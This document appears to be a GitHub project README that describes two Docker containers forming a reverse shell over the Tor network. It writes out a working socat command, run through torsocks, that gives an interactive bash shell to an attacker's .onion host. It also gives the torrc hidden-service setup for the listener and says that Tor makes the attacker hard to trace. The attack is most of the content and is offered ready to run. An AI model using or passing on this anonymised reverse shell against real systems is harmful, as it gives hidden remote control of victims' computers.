


<div align="center">


</div>
<br/>
<br/>

## **💻 Project**

We created **_two isolated containers_** that communicate with the **_Tor network_** a client and a server forming a reverse shell. In this way an attacker listens for connections from the Tor network while the victim's computer connects to the attacker.

<p align="center">

</p>

To create the docker images we used [Ubuntu](https://ubuntu.com/) and installed [socat](https://linux.die.net/man/1/socat) and [tor](https://community.torproject.org/relay/setup/bridge/debian-ubuntu/) via apt-get as you can see in the dockerfiles. This project is the continuation of [this one](https://github.com/tpaphysics/reverse-shell).

## **🚀 Get Started**

First open two different instances of the terminal run the script **_start_listen.sh_** in one and **_start_rshell.sh_** in the other:

<p align="center">

</p>

## **🌐 Client explanation**

In order for the client to be able to make calls to the attacker, the rshell container needs to be on the tor network and execute the following command:

```bash
# example attacker host
ATTACKER_HOST=lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion
ATTACKER_PORT=80

torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$ATTACKER_HOST:$ATTACKER_PORT
```

The **_torsocks_** command guarantees the the victim's ability to making calls to hosts on the Tor network.

## **🌐 Server explanation**

To create the server on the Tor network we must include the file **_torrc_** in the directory **_/etc/tor/_** this way we will get a host on the Tor network.

```bash
# torrc example
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:80
```

After starting the **_listen_** container you can see the host created by running the command:

```bash
docker exec -it listen cat /var/lib/tor/hidden_service/hostname

# out example
lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion
```

Then every call the victim makes to host `lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion` will be redirected to the **_socat_** server which is listening locally on port 80.

## **💥 Considerations**

There are many ways to create reverse shell as you can see [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). We use socat because it's easy to create a reverse shell with interactive PTY and auto complete. Using the Tor network it is very difficult to discover the attacker's host.

## **👨‍🚀 Author**

<a href="https://github.com/tpaphysics">

  <br />
  <sub>
    <b>Thiago Pacheco de Andrade</b>
  </sub>
</a>
<br />

👋 My contacts!

[](https://www.linkedin.com/in/thiago-pacheco-200a1a86/)
[](mailto:physics.posgrad.@gmail.com)

## **📝 License**

This project has an MIT [license](LICENSE.md).
